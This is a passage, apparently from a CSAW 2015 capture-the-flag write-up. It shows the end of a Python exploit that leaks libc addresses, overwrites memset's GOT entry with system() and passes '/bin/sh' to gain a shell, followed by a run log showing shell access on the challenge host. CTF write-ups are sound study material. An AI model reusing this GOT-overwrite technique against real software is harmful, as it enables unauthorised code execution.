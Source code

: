 ```python
        
    readtil('>>> ')
    
    # 00064c10 W puts
    # 00075b30 malloc
    # 0004cc40 T print
    
    
    malloc = leak4(0x804b020)
    print "[+] malloc @ " + hex(malloc)
    
    libc = malloc - 0x0075b30
    print "[+] libc @ " + hex(libc)
    
    # 0003fcd0 W system
    system = libc + 0x003fcd0
    
    print "[+] system @ " + hex(system)
    
    print "[+] overwriting memset@got with system the hard way"
    write(0x804b03c, system)
    
    print "[+] deleting element"
    
    sendln('2')
    readtil('remove?')
    sendln('/bin/sh')

    t=telnetlib.Telnet()
    t.sock =s 
    t.interact()
    

    s.close()
pwn()
```

And in action:

```
bas@tritonal:~/bin/csaw15/pwn250$ python ./pwn250poc.py 
leaking 0x804b020
[+] malloc @ 0xf7619b30
[+] libc @ 0xf75a4000
[+] system @ 0xf75e3cd0
waiting...
[+] overwriting memset@got with system the hard way
writing 0x804b03c
['ffade868']
0x68
 
    Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 
[+] deleting element
Name to remove? /bin/sh
id
uid=1001(ctf) gid=1001(ctf) groups=1001(ctf)
cd 
ls
```
